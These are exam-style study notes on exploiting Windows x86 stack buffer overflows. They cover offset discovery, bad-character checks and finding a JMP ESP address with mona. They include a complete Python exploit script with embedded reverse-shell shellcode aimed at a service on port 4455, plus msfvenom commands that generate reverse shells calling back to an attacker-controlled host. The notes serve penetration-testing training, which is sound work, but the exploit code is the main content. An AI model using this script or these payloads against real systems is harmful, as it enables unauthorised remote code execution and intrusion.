


## Buffer Overflow - Windows x86

### Intro

In the exam, you are provided with a fuzzing script already.

Some BO guides:
* https://www.nccgroup.trust/au/about-us/newsroom-and-events/blogs/2016/june/writing-exploits-for-win32-systems-from-scratch/


### 1. FUZZING TO DETERMINE ~BYTES TO CAUSE A CRASH




### 2. GENERATE OFFSET-DISCOVERY STRING

```bash
$ /usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 2700
```

Look at the value in the **EIP** register.
* `EIP` is the register that we want to control.
* We want to store the address of a `JMP ESP` instruction in EIP, to re-direct execution flow.
* Exploit execution flow: EIP -> JMP ESP -> ESP (shellcode location)

EIP value: 39694438


### 3. CALCULATE OFFSET

```bash
$ /usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q [value in EIP]
```

Offset byte number: '2606'


### 4. CONFIRM OFFSET IS CORRECT

Confirm that your offset is correct by placing a unique 4-byte string into the EIP register.

EIP value: '42424242' = 'BBBB'


### 5. CHECK FOR BAD CHARACTERS


### 6. FIND ADDRESS OF A JMP-ESP IN A .DLL

### 7. GENERATE SHELLCODE

### 8. FINAL PAYLOAD + RUN EXPLOIT TO OBTAIN SHELL


```Python
#!/usr/bin/python
#
#[*] Exact match at offset 2369
#76E295FD

import sys, socket

if len(sys.argv) < 2:
    print "\nUsage: " + sys.argv[0] + " <HOST>\n"
    sys.exit()

cmd = "OVRFLW "

shellcode = ("\xd9\xc6\xd9\x74\x24\xf4\x5f\x31\xc9\xbd\xc5\x06\x1f\x5e\xb1"
"\x52\x31\x6f\x17\x03\x6f\x17\x83\x2a\xfa\xfd\xab\x48\xeb\x80"
"\x54\xb0\xec\xe4\xdd\x55\xdd\x24\xb9\x1e\x4e\x95\xc9\x72\x63"
"\x5e\x9f\x66\xf0\x12\x08\x89\xb1\x99\x6e\xa4\x42\xb1\x53\xa7"
"\xc0\xc8\x87\x07\xf8\x02\xda\x46\x3d\x7e\x17\x1a\x96\xf4\x8a"
"\x8a\x93\x41\x17\x21\xef\x44\x1f\xd6\xb8\x67\x0e\x49\xb2\x31"
"\x90\x68\x17\x4a\x99\x72\x74\x77\x53\x09\x4e\x03\x62\xdb\x9e"
"\xec\xc9\x22\x2f\x1f\x13\x63\x88\xc0\x66\x9d\xea\x7d\x71\x5a"
"\x90\x59\xf4\x78\x32\x29\xae\xa4\xc2\xfe\x29\x2f\xc8\x4b\x3d"
"\x77\xcd\x4a\x92\x0c\xe9\xc7\x15\xc2\x7b\x93\x31\xc6\x20\x47"
"\x5b\x5f\x8d\x26\x64\xbf\x6e\x96\xc0\xb4\x83\xc3\x78\x97\xcb"
"\x20\xb1\x27\x0c\x2f\xc2\x54\x3e\xf0\x78\xf2\x72\x79\xa7\x05"
"\x74\x50\x1f\x99\x8b\x5b\x60\xb0\x4f\x0f\x30\xaa\x66\x30\xdb"
"\x2a\x86\xe5\x4c\x7a\x28\x56\x2d\x2a\x88\x06\xc5\x20\x07\x78"
"\xf5\x4b\xcd\x11\x9c\xb6\x86\xdd\xc9\x93\x49\xb6\x0b\xe3\x64"
"\x1a\x85\x05\xec\xb2\xc3\x9e\x99\x2b\x4e\x54\x3b\xb3\x44\x11"
"\x7b\x3f\x6b\xe6\x32\xc8\x06\xf4\xa3\x38\x5d\xa6\x62\x46\x4b"
"\xce\xe9\xd5\x10\x0e\x67\xc6\x8e\x59\x20\x38\xc7\x0f\xdc\x63"
"\x71\x2d\x1d\xf5\xba\xf5\xfa\xc6\x45\xf4\x8f\x73\x62\xe6\x49"
"\x7b\x2e\x52\x06\x2a\xf8\x0c\xe0\x84\x4a\xe6\xba\x7b\x05\x6e"
"\x3a\xb0\x96\xe8\x43\x9d\x60\x14\xf5\x48\x35\x2b\x3a\x1d\xb1"
"\x54\x26\xbd\x3e\x8f\xe2\xdd\xdc\x05\x1f\x76\x79\xcc\xa2\x1b"
"\x7a\x3b\xe0\x25\xf9\xc9\x99\xd1\xe1\xb8\x9c\x9e\xa5\x51\xed"
"\x8f\x43\x55\x42\xaf\x41")

JMP_ESP = "\x43\x66\xfe\x52"
NOPS = "\x90"*16
junk = "\x41"*2369 + JMP_ESP + NOPS + shellcode + "C"*(3000-2369-4-16-351)

end = "\r\n"

buffer = cmd + junk + end
try:
	s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
	s.connect((sys.argv[1], 4455))
	s.send(buffer)
	s.recv(1024)
	s.close()
except Exception as e:
	print(e)
```


### Fuzzing -> Determine exact offset -> Control EIP register

1. Fuzz application to determine rough amount of bytes to cause a crash.
2. Generate offset-discovery string: `/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 2700`
3. Run script with-offset discovery string + look at value in EIP
    * EIP is where we want to store address of a JMP ESP instruction
    * Execution flow: EIP -> JMP ESP -> ESP (shellcode location)
3. Calculate offset: `/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q [value in EIP]`

Now we know the exact #bytes needed to reach/control the EIP register so that we can overwrite it with JMP ESP address.

### Checking for bad chars

1. Generate string of bad characters (0x00 -> 0xFF)
2. Use list of bad chars as payload + execute script.
3. Observe crash + goto location in ESP register (right-click -> follow-in-dump)
4. Observe the hex dump and see which character has truncated the rest of the payload that should come after it.
5. Remove character from buffer + repeat steps until all bad chars have been found.

### Find address of a JMP ESP in a DLL

We need to find a module that contains a `JMP ESP` instruction which we can point to.

1. `!mona modules` to list all the loaded modules for the application.
2. Find a module that has no internal security mechanisms:
   * No memory protection (ASLR: address randomisation / DEP: data execution prevention)
   * Memory range of DLL does not contain bad characters
3. Find a `JMP ESP` or equivalent instruction in the DLL.
   * Click on the Executable Modules `e` icon to show list of all modules/DLLs loaded with the application.
   * Locate the chosen DLL in step #3 and click on the DLL.
   * Right-click on instruction window -> Search For -> Command -> `JMP ESP`
   * If none are found: Search For -> Command Sequence -> `PUSH ESP | RETN` (equivalent command)
   * If none are found: `!Mona find -s "\xFF\xE4" -m slmfc.dll` to find the opcode for `JMP ESP` in the whole slmfc.dll.
4. Once `JMP ESP` has been found, verify that the address does actually contain the instruction
   * Click on "Go to address in disassembler" button then enter in the address.
   * Check that the address has `JMP ESP`

### Generate and use shellcode

1. Generate shellcode, target specific platform (windows x86), encode payload, avoid bad characters
   `$ msfvenom -p windows/shell_reverse_tcp LHOST=10.11.0.42 LPORT=443 -f c -a x86 --platform windows -b "\x00\x0a\x0d" -e x86/shikata_ga_nai`
   In front of the shellcode are instructions to decode the encoded payload.
2. We need to provide the shellcode docoder some stack-space to work with
   * Append NOP instructions to the front of the payload e.g. `"\x90 * 16"`
3. 


--- 

# BOF
**1. Check buffer length to trigger overflow**  

**2. Cofirm overflow length, append "A" * length**  

**3. Generate Offset to check EIP, ESP location**  
  /usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l <length>

	Record value on EIP, select ESP and click "Follow in Dump"  
	/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q <value> -l <length>  

	Use !mona to find the offset after the overflow  
	!mona findmsp  

**4. Confirm EIP by adding "B" * 4 after the number of offset. Also, add a number of "C" to track the number of characters that can be added after EIP to confirm length of shellcode**

**5. Check bad characters after EIP. common bad characters are 0x00, 0x0A. Follow dump in ESP to check are there something missing after that.**
Add code:

	badchar = [0x00]
	for ch in range (0x00 , 0xFF+1):
		if ch not in badchar:
			<payload> += chr(ch)

**6. Find JMP ESP address in the system.**
	JMP ESP = FFE4

	!mona jmp -r esp -cpb "\x00\x0A" << bad character

	!mona modules
	!mona find -s "\xff\xe4" -m brainpan.exe

	check the value of the address by naviate to it.
	Set breakpoint
	Change "B" in EIP to the address of JMP ESP << littile edian

	e.g. 0x311712f3 >> "\xf3\x12\x17\x31"

	Run again to check is the breakpoint triggered

**7. Add shellcode**
	Add a few \x90 before shellcode to avoid shellcode being modify

	msfvenom -p windows/shell_reverse_tcp LHOST=<IP>LPORT=<PORT> EXITFUNC=thread -f <Code Format> -a x86 -platform windows -b "\x00"
	msfvenom -p linux/x86/shell_reverse_tcp LHOST=<IP>LPORT=<PORT> EXITFUNC=thread -f <Code Format> -b "\x00"

**Bonus: Running out of shell code space?**
Use the front of payload instead
1. Is there any register points to the front of our payload? EAX, EDX?
2. Check JMP register address
	/usr/share/metasploit-framework/tools/exploit/nasm_shell.rb

	JMP EAX/EBX/ECX/EDX

3. Append the address as shell code.
4. Add payload to the front


